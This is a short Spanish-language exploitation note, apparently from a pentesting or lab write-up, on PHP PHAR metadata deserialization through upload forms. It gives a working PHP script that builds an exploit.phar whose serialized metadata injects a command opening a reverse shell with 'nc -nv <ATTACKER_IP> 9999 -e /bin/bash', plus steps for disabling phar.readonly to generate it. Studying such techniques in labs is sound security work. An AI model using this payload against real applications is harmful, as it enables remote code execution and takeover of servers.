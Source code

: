 ### INFO

- PHAR es una extensión de PHP.
- Permite guardar una aplicación entera PHP dentro de un archivo.
- Es similar a los JAR de java.
- Se acceden a los archivos dentro del mismo usando el wrapper phar://archivo

### Explotación

- Los phar tienen muchas propiedades, entre ellas la que nos es más importante es la metadata.
- Según la documentación de PHP (https://www.php.net/manual/en/phar.getmetadata.php) toda variable suceptible de ser serializada califica como metadata.
- Hasta php 8.0 toda metadata es deserializada de manera automática cuando se parsea un phar.
- Parsear un phar consta de llamar al archivo con el wrapper phar://
- Esto funciona incluso cuando los archivos son subidos con otras extensiones como JPG.


A modo de ejemplo, supongamos que encontramos un file upload, podríamos generar un phar con el siguiente procedimiento:
1) Creamos un archivo .php con el siguiente código:

        <?php
        include('UserSettings.php');
        
        $phar = new Phar("exploit.phar");
        
        $phar->startBuffering();
        
        $phar->addFromString('0', '');
        $phar->setStub("<?php __HALT_COMPILER(); ?>");
        $phar->setMetadata(new \App\Helpers\UserSettings('"; nc -nv <ATTACKER_IP> 9999 -e /bin/bash;#', 'attacker@htbank.com', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg'));
        
        $phar->stopBuffering();


  2) Lo ejecutamos y este nos va a crear el archivo exploit.phar
#####  Si tenemos el siguiente error:
    PHP Fatal error:  Uncaught UnexpectedValueException: creating archive "exploit.phar" disabled by the php.ini setting phar.readonly in XXXXX
    Stack trace:
    #0 XXXXX: Phar->__construct()
    #1 {main}
      thrown in XXXXX on line XX

##### Podemos solucionarlo cambiando la propiedad phar.readonly = On a Off dentro del archivo:
    /etc/php/<php version>/cli/php.ini

